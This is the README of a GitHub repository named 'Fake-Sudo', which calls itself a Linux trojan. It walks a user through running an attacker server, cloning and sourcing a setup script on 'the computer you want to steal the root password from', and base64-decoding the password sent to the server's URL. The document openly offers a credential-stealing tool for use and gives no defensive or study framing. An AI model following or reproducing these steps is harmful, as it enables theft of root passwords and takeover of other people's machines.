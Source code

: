 # Fake-Sudo
A linux trojan
## How to use
1. Clone the repo<br>`git clone https://github.com/NarmakTwo/Fake-Sudo.git`<br>`cd Fake-Sudo`
2. Make a server<br>`python3 flask.py`
3. Go to the computer you want to steal the root password from
4. Clone the repo<br>`git clone https://github.com/NarmakTwo/Fake-Sudo.git`<br>`cd Fake-Sudo`
5. Setup the program<br>`chmod a+x setup.sh`<br>`source setup.sh`
6. Enter the public URL for the server you made (NOT 127.0.0.1)<br>`Site (include https:// or http://) <<< [your url]`
7. Once the server log says something, copy the end of the url and decode it<br>`echo [end of url] | base64 -d`, That's the root password!
8. That's it!
